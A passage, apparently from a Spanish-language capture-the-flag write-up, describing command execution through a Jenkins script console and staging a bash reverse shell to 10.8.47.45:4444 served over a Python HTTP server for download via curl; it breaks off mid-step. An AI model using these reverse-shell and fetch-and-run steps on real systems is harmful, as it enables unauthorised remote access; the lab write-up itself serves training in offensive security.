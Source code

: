 ![](/assets/img/internal/wel.png)
Estando Dentro de un jankins podemos, ejecutar comandos en la consola de scripts.
![](/assets/img/internal/rce.png)
Para ganar acceso a la maquina voy a crear un archivo index.html con un script de bash que se encargue de enviarme una revershell.
```bash
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.8.47.45/4444 0>&1"
```
Voy a montar un servidor http con python
```bash
❯ sudo python3 -m http.server 80
```
Ahora voy hacerme un curl a mi servidor y guardar el output en un archivo